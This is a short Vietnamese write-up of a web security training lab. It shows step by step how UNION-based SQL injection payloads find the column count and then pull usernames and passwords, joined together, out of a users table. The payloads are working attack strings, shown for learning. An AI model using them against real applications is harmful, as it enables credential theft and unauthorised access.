




# Triển khai Lap
###### Kiểm tra số cột và kiểm tra dữ liệu cột, em đã tìm được 2 cột và chỉ có cột thứ 2 trả về dữ liệu: `' UNION SELECT null, 'a'-- -`

######  truy vấn thì kết quả chỉ có username:  `' UNION SELECT null, username FROM users-- -`

######  thử cách nối chuỗi trong SQL injection cheat sheet và kết quả là lấy được cả pass và username.  `' UNION SELECT null, username || password FROM users-- -`

###### Sửa lại câu truy vấn cho dễ nhìn bằng cách thêm ký tự giữa username và password sau đó lấy accout đăng nhập là hoàn thành lab.  `' UNION SELECT null, username || '------ ' ||password FROM users-- -`

